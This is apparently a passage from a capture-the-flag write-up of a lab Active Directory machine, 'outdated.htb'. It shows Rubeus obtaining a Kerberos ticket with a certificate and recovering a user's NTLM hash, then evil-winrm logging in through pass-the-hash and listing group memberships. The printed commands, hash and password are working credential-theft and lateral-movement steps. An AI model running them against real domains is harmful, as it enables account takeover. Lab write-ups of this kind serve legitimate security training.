KLPr+/mrDwcu1YuA3Niv+7e+Y9sG1CQeHYoKORgf2jBGO7/PJmruoRGCmxQuyMXq/AZHxCDRbWt8XwIe6Hq3zKZ6DMoB+z8NvloL6Sxow9MG0fK+h
WY4uSo5qiyPr48rf9lSHHxs8AiBH1RUyzOwEOov4g0bT99uvidUFKrEEv8HsaLUgHNeY0hpGVqppI2Zn70nkiV0/jTpm/TCE7k0pax0luShUNRvrl
Mqr0DHQqdRUHuP6ZhgPVau3nuG7kePDA7MB8wBwYFKw4DAhoEFCiz8S5ML9QDN8mBwqM5FeyUaGfhBBTPCaRX2DxI0q06oYagfxLniD6wxAICB9A=
 /password:"u5nDYAm5BqtYpG5v" /domain:outdated.htb /dc:DC.outdated.htb /getcredentials /show

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.3.2

[*] Action: Ask TGT

[*] Using PKINIT with etype rc4_hmac and subject: CN=sflowers 
[*] Building AS-REQ (w/ PKINIT preauth) for: 'outdated.htb\sflowers'
[*] Using domain controller: 172.16.20.1:88
[+] TGT request successful!
[*] base64(ticket.kirbi):

      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

  ServiceName              :  krbtgt/outdated.htb
  ServiceRealm             :  OUTDATED.HTB
  UserName                 :  sflowers (NT_PRINCIPAL)
  UserRealm                :  OUTDATED.HTB
  StartTime                :  7/29/2024 4:27:53 AM
  EndTime                  :  7/29/2024 2:27:53 PM
  RenewTill                :  8/5/2024 4:27:53 AM
  Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType                  :  rc4_hmac
  Base64(key)              :  CTqEDaxC8cgMtJUGXOOrkw==
  ASREP (key)              :  6994D27A0B75C9089D0B66A2A3F60917

[*] Getting credentials using U2U

  CredentialInfo         :
    Version              : 0
    EncryptionType       : rc4_hmac
    CredentialData       :
      CredentialCount    : 1
       NTLM              : 1FCDB1F6015DCB318CC77BB2BDA14DB5
```

| Username | Password | Target |
| -- | -- | -- |
| sflowers | 1FCDB1F6015DCB318CC77BB2BDA14DB5 | outdated.htb |

```bash
$ evil-winrm -i $TARGET -u sflowers -H 1FCDB1F6015DCB318CC77BB2BDA14DB5            
Evil-WinRM shell v3.5
...                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\sflowers\Documents> 
```

```bash
*Evil-WinRM* PS C:\Users\sflowers\Documents> whoami /all

USER INFORMATION
----------------

User Name         SID
================= ============================================
outdated\sflowers S-1-5-21-4089647348-67660539-4016542185-1108


GROUP INFORMATION
-----------------

Group Name                                  Type             SID                                          Attributes
=========================================== ================ ============================================ ===============================================================
Everyone                                    Well-known group S-1-1-0                                      Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users             Alias            S-1-5-32-580                                 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                               Alias            S-1-5-32-545                                 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554                                 Mandatory group, Enabled by default, Enabled group
BUILTIN\Certificate Service DCOM Access     Alias            S-1-5-32-574                                 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                        Well-known group S-1-5-2                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11                                     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization              Well-known group S-1-5-15                                     Mandatory group, Enabled by default, Enabled group
OUTDATED\WSUS Administrators                Alias            S-1-5-21-4089647348-67660539-4016542185-1000 Mandatory group, Enabled by default, Enabled group, Local Group
NT AUTHORITY\NTLM Authentication            Well-known group S-1-5-64-10                                  Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Plus Mandatory Level Label            S-1-16-8448


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
```

`sflowers` is member of `OUTDATED\WSUS Administrators`.

```bash
```

```bash
```

```bash
```

```bash
```

```bash
```

```bash
```

```bash
```

```bash
```

```bash
```
